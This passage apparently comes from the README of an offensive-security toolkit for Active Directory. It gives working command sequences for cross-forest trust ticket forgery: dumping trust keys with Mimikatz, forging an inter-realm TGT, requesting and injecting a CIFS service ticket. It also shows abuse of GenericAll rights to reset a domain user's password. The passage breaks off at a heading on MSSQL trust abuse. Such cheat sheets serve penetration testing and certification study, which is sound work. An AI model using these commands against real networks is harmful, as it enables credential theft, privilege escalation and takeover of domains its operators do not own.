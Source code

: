 **Example:**

[![Main Logo](https://github.com/hackinaggie/OSEP-Tools-v2/raw/main/Other/ad_cs_imgs/Example_Child_to_parent01.PNG)](https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Other/ad_cs_imgs/Example_Child_to_parent01.PNG)

#### Across Forest using Trust Tickets



**1. Request the trust key for the inter forest trust:**

```
# request the trust key for the inter forest trust
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc.corp.corporate.local      
```

**2. Create the inter-realm TGT:**

```
# Create the inter-realm TGT
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:<domain> /sid:S-1-5-21-1874506631-3219952063-538504511 /rc4:<hash> /service:krbtgt /target:eurocorp.local /ticket:C:\test\kekeo_old\trust_forest_tkt.kirbi"'
```

**3. Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket:**

```
# Get a TGS for a service
.\asktgs.exe C:\test\trust_forest_tkt.kirbi CIFS/eurocorp-dc.corporate.local
```

**4. Present the TGS to the service (CIFS) in the target forest:**

```
# Present the TGS
.\kirbikator.exe lsa .\CIFS.eurocorp-dc.corporate.local.kirbi
```

#### GenericAll Abused



[![Main Logo](https://github.com/hackinaggie/OSEP-Tools-v2/raw/main/Other/ad_cs_imgs/Example_BloodHound_GenericAll.PNG)](https://github.com/hackinaggie/OSEP-Tools-v2/blob/main/Other/ad_cs_imgs/Example_BloodHound_GenericAll.PNG)

**1. Full control with GenericAll. Method to change the password:**

```
# User password change
Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock {net user mickey.mouse newpassword /domain}
```

## Trust Abuse MSSQL Servers


